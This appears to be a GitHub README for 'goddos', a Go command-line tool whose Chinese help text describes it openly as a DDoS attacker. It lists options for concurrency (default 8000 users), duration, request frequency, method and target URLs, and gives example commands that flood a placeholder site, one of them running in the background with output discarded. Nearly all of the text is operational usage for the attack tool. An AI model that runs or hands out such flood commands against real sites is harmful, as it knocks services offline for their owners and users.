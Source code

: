# Help
```bash
./goddos -h
```

```bash
Usage of ./goddos:
  -cc int
        并发用户数量 (default 8000)
  -dm int
        DDos攻击持续时间（分钟） (default 20)
  -ims int
        每个用户执行DDos攻击的频率（毫秒） (default 1000)
  -f string
        包含多个URL的文件路径
  -m string
        DDos攻击目标URL请求方式(GET/POST/...) (default "GET")
  -u string
        DDos攻击的目标URL (default "https://www.yoursite.com")
```


# Example
```bash
./goddos -cc 1000 -u https://www.yoursite.com

// 后台运行
nohup ./goddos -cc 1000 -u https://www.yoursite.com &

// 后台运行，不写日志
nohup ./goddos -cc 8000 -u https://www.yoursite.com >/dev/null 2>&1
```



- open many files:
```bash
sudo ulimit -n 8192
```
@see https://www.jb51.net/LINUXjishu/228022.html

鸣谢：https://github.com/chlyyy/goddos

